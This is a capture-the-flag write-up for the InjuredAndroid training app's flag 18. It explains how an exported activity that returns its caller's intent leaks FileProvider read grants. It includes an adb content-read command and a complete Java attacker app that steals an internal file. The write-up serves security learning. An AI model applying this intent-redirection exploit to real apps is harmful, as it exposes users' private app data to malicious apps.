







2First, let's have a look on the `AndroidManifest.xml` file:



We can see that there is an exported activity `FlagEighteenActivity`. In addition, there is a file provider, which isn't exported but do allow granting permissions. We can see that its file path located at `xml/file_paths.xml`:

```xml
<?xml version="1.0" encoding="utf-8"?>  
<paths xmlns:android="http://schemas.android.com/apk/res/android">  
    <files-path  
        name="files"  
        path="/"/>  
</paths>
```

So, it shares all the files under `files/`. For summery, the content uri will look like:

```
content://b3nac.injuredandroid.fileprovider/files/
```

Let's try and example with `adb` (usually you won't have this, the user `shell` have higher permissions, so we can call this content request with no problem). We want to get the file `test`, which is located under `assets`, and on the app under `files`.



```bash
adb shell content read --uri content://b3nac.injuredandroid.fileprovider/files/test
```



Now, let's read the code of the activity which we can export:



This line tells us that when the activity finishes or getting destroyed, it returns to its caller activity, with the status code of `RESULT_OK`, and also the same intent it got from its caller. 

So, if we send from activity outside of this application, some activity with request to access uri using the file provider, it can grants the permission, since this is being handled by the application, and then sends back the same intent with the granted permissions.

It enables us access the internal data. The programmer should've created new intent, and then migrates the vulnerability, where the malicious actor can send the request for data, it might look like some kind of `SSRF` vulnerability.

Let's write code where we try to access the data with simple uri request:

```java
package com.example.injuredandroid;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.renderscript.ScriptGroup;
import android.util.Log;
import android.view.View;
import android.widget.Button;
import android.widget.Toast;

import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;

import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);

        Button btn_protected = findViewById(R.id.RequestData_button);
        btn_protected.setOnClickListener(this::send_request);
    }

    private void send_request(View view){
        Toast.makeText(this, "send intent with data request to eighteen activity", Toast.LENGTH_SHORT).show();

        Intent attack = new Intent();
        attack.setData(Uri.parse("content://b3nac.injuredandroid.fileprovider/files/test"));
        attack.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
        attack.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.FlagEighteenActivity");

        startActivityForResult(attack, 770);
    }

    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data){
        if (requestCode == 770 && resultCode == RESULT_OK){
            Uri grantedUri = data.getData();
            // Read the data
            try {
                assert grantedUri != null;
                try (InputStream is = getContentResolver().openInputStream(grantedUri)){
                    String flag = new BufferedReader(new InputStreamReader(is)).readLine();
                    Log.d("HACKED", "The flag is: " + flag);

                    Toast.makeText(this, "FOUND: " + flag, Toast.LENGTH_LONG).show();
                }
            } catch (Exception e){
                Log.e("HACKED", "Failed to read", e);
            }
        }
        super.onActivityResult(requestCode, resultCode, data);
    }
}
```

and the `activity_main.xml`:

```xml
<?xml version="1.0" encoding="utf-8"?>  
<androidx.constraintlayout.widget.ConstraintLayout xmlns:android="http://schemas.android.com/apk/res/android"  
    xmlns:app="http://schemas.android.com/apk/res-auto"  
    xmlns:tools="http://schemas.android.com/tools"  
    android:id="@+id/main"  
    android:layout_width="match_parent"  
    android:layout_height="match_parent"  
    tools:context=".MainActivity">  
  
    <Button        android:id="@+id/RequestData_button"  
        android:layout_width="wrap_content"  
        android:layout_height="wrap_content"  
        android:text="request data"  
  
        app:layout_constraintBottom_toBottomOf="parent"  
        app:layout_constraintEnd_toEndOf="parent"  
        app:layout_constraintStart_toStartOf="parent"  
        app:layout_constraintTop_toTopOf="parent"  
        app:layout_constraintVertical_bias="0.44" />  
  
  
</androidx.constraintlayout.widget.ConstraintLayout>
```

Okay, now when we press the button, it sends intent with the URI payload, and request for read permissions.



Now, when we press the button, and then go back to our activity using the arrow back button, we trigger the `onActivityResult`, which then let us access the data using the intent with the file provider, and the granted permissions:



We got the text `text.txt`, the flag will be the md5 hash of this string, which is **`034d361a5942e67697d17534f37ed5a9`**:




